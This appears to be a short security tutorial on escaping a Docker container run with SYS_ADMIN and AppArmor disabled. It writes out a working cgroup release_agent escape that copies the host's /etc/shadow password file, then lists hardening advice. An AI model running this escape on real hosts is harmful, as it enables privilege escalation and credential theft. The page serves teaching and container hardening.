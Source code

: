 # Escaping from a Docker container

### SYS\_ADMIN capability and AppArmor disabled

Note that these aren't default settings

```text
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

Then in the container, we are going to run these commands. 

```text
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n ‘s/.*\perdir=\([^,]*\).*/\1/p’ /etc/mtab`
echo “$host_path/cmd” > /tmp/cgrp/release_agent
echo ‘#!/bin/sh’ > /cmd
echo “cat /etc/shadow > $host_path/shadow” >> /cmd
chmod a+x /cmd
sh -c “echo \$\$ > /tmp/cgrp/x/cgroup.procs”
```

Once you execute the above commands, you can see the host OS’s passwords in /shadow folder

```text
cat /shadow
```

As we can see we were able to break out of the container. Suffice to say, we abused misconfigurations to escape a container.  
This wouldn’t have happened if the non-root user was used, SYS\_ADMIN and AppArmor profile wasn’t disabled.  
In short,

1. Do not use –privileged flag, it disables all the security mechanisms placed by docker.
2. Do not mount root volumes into the containers.
3. Do not mount docker.sock inside the containers.
4. Default docker settings are sane, please do not disable them or add more capabilities.
5. Use SecComp and AppArmor profiles to harden the container.
6. Do not run containers as the root user.


